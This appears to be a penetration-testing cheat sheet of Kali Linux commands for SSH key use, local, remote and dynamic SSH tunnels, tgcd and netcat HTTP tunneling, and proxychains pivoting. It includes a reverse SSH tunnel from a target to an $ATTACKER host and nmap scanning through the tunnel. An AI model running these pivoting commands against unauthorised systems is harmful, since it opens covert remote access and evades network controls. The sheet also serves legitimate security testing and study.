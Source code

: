 > ###### Generate key

Kali> ssh-keygen -t rsa



> ###### SSH with Key

Kali> ssh -i key_file user@host



> ###### SSH Tunneling

# Local Tunnel
Kali> ssh $ATTACKER -L 3000:$TARGET:2222

# Remote Tunnel
Kali> ssh $TARGET -R 2222:localhost:3000

# Dynamic Tunnel to $TARGET
Kali> ssh -D 127.0.0.1:3000 -N username@$TARGET



> ###### tgcd tunneling

Kali> tgcd -L -p 9999 -q 40000
Kali> tgcd -C -s IP:9999 -c ATTACKER:40000
Kali> iptables -t nat -A OUTPUT -d IP -j DNAT --to-destination 127.0.0.1



##### HTTP Tunneling

Kali> nc -vvn $TARGET 8888
CONNECT $TARGET2:80 HTTP/1.0



##### Proxychains

# create reverse ssh tunnel on our target
Kali> ssh -f -N -R 2222:127.0.0.1:22 root@$ATTACKER

# create on our attacking machine
Kali> ssh -f -N -D 127.0.0.1:8080 -p 2222

# Good to go
Kali> proxychains nmap -sV $TARGET


